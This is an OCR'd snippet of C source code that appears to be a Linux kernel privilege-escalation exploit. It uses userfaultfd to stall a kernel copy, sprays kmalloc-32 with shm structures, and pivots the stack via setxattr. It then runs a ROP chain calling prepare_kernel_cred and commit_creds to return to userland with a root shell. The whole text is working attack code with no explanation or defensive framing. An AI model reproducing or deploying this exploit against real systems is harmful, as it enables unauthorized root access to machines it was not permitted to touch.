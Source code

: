 ```c 
    int64_t* stack_ = mmap(0x5D006213 & ~(PAGE-1),0x3000,PROT_READ | PROT_WRITE | PROT_EXEC,MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED,-1,0);
    stack_[0]=69;
    *(stack_+0x1000/8)=0;
    int64_t* rop = 0x5D006213;
    register_userfaultfd_and_halt();
    sleep(1);
    call_shmat(); // kalloc and kfree shm_file_data structure at kmalloc-32
    log_info("Trying push....");
    _push(addr); // invoke fault
    u_int64_t off = 0;
    rop[off++] = kernel_base + 0x22dd4c; // pop rdi ; ret
    rop[off++] = 0;
    rop[off++] = kernel_base + 0x69e00; // prepare_kernel_cred
    rop[off++] = kernel_base + 0x22dd4c; // pop rdi ; ret
    rop[off++] = 0;
    rop[off++] = kernel_base + 0x17bf6d; // add rdi,rax ; mov rbx,QWORD PTR [rbp-0x30]; mov QWORD PTR [rbx],rdi; add rsp,0x8; pop ..
    rop[off++] = 0;
    rop[off++] = 0; //dummy rbx
    rop[off++] = 0; //dummy r12
    rop[off++] = 0; //dummy r13
    rop[off++] = 0; //dummy r14
    rop[off++] = 0; //dummy r15
    rop[off++] = 0; //dummy rbp
    rop[off++] = kernel_base + 0x69c10; // commit_creds
    rop[off++] = kernel_base + 0x600a34 + 22;// swapgs_restore_regs_and_return_to_usermode+22
    rop[off++] = 0; // dummy rax
    rop[off++] = 0; // dummy rdi
    rop[off++] = get_shell;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;
    int sfd;
    if((sfd = open("/proc/self/stat", O_RDONLY)) == -1)
        errExit("single_open");
    int64_t hehe[4];
    hehe[3] = kernel_base + 0x1e0c40; // mov esp, 0x5D006213 ; ret
    setxattr("/tmp", "cacBANcheCUOI", hehe, sizeof(hehe), XATTR_CREATE);
    read(sfd, buf, 0x10);
```

